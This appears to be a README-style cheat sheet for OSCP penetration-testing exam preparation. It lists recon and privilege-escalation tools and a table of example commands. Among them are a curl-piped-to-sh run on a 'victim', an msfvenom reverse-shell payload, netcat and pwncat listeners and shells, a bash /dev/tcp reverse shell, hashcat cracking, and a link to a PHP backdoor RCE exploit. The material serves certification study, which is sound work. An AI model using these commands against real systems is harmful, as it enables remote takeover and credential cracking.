 # Offensive Security Certified Professional
## OSCP Tools and Resources for Your Journey


##### Nmap Automator. Save time on port/vuln scans:
https://github.com/21y4d/nmapAutomator

##### PWNCAT - Unbreakable Persistent Reverse Shell (Also IDS/Firewall Evasion :)
https://github.com/cytopia/pwncat

##### Linpeas
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

    From github
    curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
    
    Local network
    sudo python -m SimpleHTTPServer 80 #Host
    curl 10.10.10.10/linpeas.sh | sh #Victim

##### Linux Privilege Checker
https://github.com/sleventyeleven/linuxprivchecker

Category | Command Examples
------------ | -------------
MSFVENOM | msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.221 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
SMB | python3 smbserver.py lab "~/OSCP/EXPLOITS/MS17-010/CLISHARE"
NETCAT | nc -nvlp 443   *(Creates a local listener)*
CRACKING | hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst 
SHELL | Resolve "TERM environment variable not set":  *$ *export TERM=xterm**
SHELL | Fully interactive shell (Python): *$ python3 -c 'import pty; pty.spawn("/bin/bash")'*
SHELL | PWNCAT Ex. *$ pwncat -e '/bin/bash' example.com 4444*
SHELL | Reverse Bash Shell *$ bash -i >& /dev/tcp/10.10.10.10/4443 0>&1*


## Exploits
PHP 8.1.0-dev Backdoor RCE
https://github.com/flast101/php-8.1.0-dev-backdoor-rce

